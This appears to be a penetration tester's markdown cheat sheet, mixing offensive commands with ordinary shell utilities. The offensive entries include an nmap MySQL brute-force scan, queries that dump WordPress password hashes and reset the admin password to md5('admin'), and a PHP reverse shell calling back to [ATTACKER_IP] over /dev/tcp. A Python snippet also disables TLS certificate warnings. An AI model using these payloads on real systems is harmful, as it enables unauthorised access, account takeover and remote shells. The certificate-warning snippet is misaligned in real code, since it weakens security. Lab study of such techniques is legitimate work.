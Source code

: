 `nmap --script=mysql-brute 192.168.52.88`

## Connect to MySQL DB
`mysql [TABLE] -u [DB_USERNAME] -p`
`EX: mysql atmail6 -u root -p`

## Find users and reset passwords mySql Mariadb 
`select user_login, user_pass from wp_users;` 
```
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| admin      | $P$BaWk4oeAmrdn453hR6O6BvDqoF9yy6/ |
+------------+------------------------------------+
```

`update wp_users set user_pass=md5('admin') where user_login='admin';` 

## PHP Reverse Shell
`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/[ATTACKER_IP]/[PORT] 0>&1'"); ?>`

## Grep all files returned from a grep
`grep [OPTIONS] [PATH_TO_SEARCH] [SEARCH_STRING] | sed "s/:/  /g" | awk '{print $1}' > /tmp/files.txt; grep [SEARCH_STRING] $(cat /tmp/files.txt) --color; rm -rf /tmp/files.txt;`
`EX: grep -rnw /var/www/html -e "^.*user_location.*public.*" | sed "s/:/  /g" | awk '{print $1}' > /tmp/files.txt; grep "isset" $(cat /tmp/files.txt) --color; rm -rf /tmp/files.txt;`

## Find files for white-box testing
`sudo find / -name [FILENAME]`
`sudo find / -name *.[EXTENSION]`
`sudo find [WEBROOT] -type d -perm -o+w`

## Disable invalid cert warnings in Python
`import requests, urllib3 urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)`

## Get latest PostgreSQL log entries by REGEX in Powershell
`Get-Content .\[LOG_FILE] -tail 10 | Select-String -pattern [REGEX] -context 0,[NUMBER_OF_LINES_AFTER_REGEX_TO_SHOW]`
`EX: Get-Content .\postgresql_08.log -tail 10 | Select-String -pattern error -context 0,2`

## Sed replace new-line
`sed ':a;N;$!ba;s/\n/[STRING_TO_REPLACE]/g' [FILE]`
`EX: sed ':a;N;$!ba;s/\n & /g' manage-engine_payload.bat`

## tr remove new-line
`tr -d "\n"`
